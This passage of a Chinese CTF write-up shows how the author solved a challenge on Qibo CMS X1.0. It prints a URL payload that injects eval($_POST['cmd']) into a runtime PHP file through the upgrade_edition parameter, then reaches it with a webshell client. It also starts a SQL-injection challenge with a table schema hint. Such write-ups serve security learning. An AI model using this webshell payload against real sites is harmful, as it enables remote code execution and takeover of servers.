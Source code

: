 ![image-20210804215658734](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20210804215658734.png)

抓包之后看到这里确实有post访问和upgrade_edtion参数，那就稳了，直接写🐎

```
/admin.php/admin/upgrade/sysup.html?upgrade_edition=%22,%22%22=%3E-eval($_POST[%27cmd%27])-%22,];?%3E//
```

![image-20210804220302331](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20210804220302331.png)

将🐎写进的目标页面`/runtime/client_upgrade_edition.php`连入蚁剑 拿flag即可

————比赛的时候我其实是没有搜到[齐博建站系统x1.0代码审计](https://ma4ter.cn/2527.html)这篇的，当时思路是在后台在找有没有可以利用的地方直接写🐎 ，当时找的是独立页管理，尝试upload，但是并不太行（也可能是我太菜了），然后也没去审代码（懒狗）所以 就没出这个题，现在看还是疏忽了 确实完全没注意到系统在线升级这个模块是可用的 也没有认真的分析源码 我的过

## 安全,安全,还是xxx的安全

> 某个特别安全的商店
>
> Hint:
>
> ```sql
> CREATE TABLE "users" (
>   "id" INTEGER NOT NULL,
>   "username" TEXT UNIQUE ,
>   "login_password" text,
>   "money" INTEGER,
>   "pay_password" TEXT,
>   "flag_num" INTEGER,
>   PRIMARY KEY ("id")
> );
>
>
> CREATE TABLE "flaaaaaaaaag" (
>   "flllllllag" TEXT
> );
> ```

特别简陋的前端，有登录和注册和主页三个页面，登录处有一定过滤 存在sqli![image-20210801133701306](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20210801133701306.png)

任意注册账号，走一波流程

![image-20210801133748445](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20210801133748445.png)

![image-20210801133808970](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20210801133808970.png)

![image-20210801133825487](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20210801133825487.png)

~~😅蚌埠住了~~

回过头来看一下Burp对刚才操作的抓包结果，从cookie可以知道后端是flask框架 ，flask的话一般标配sqlite数据库，然后看下页面源码
